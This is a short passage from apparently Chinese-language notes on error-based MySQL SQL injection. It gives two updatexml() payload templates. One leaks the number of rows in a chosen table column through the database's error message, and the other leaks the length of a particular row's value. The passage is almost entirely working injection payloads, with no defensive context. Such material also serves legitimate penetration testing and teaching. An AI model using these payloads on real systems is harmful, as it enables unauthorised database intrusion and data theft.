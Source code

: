 #### 获取数据数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(字段名))FROM(数据库名.表名)),0x7e),1)
```

![image-20250222163915104](static/image/image-20250222163915104.png)

#### 获取数据内容长度

```mysql
# 获取某条数据的数据内容长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(字段名))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```
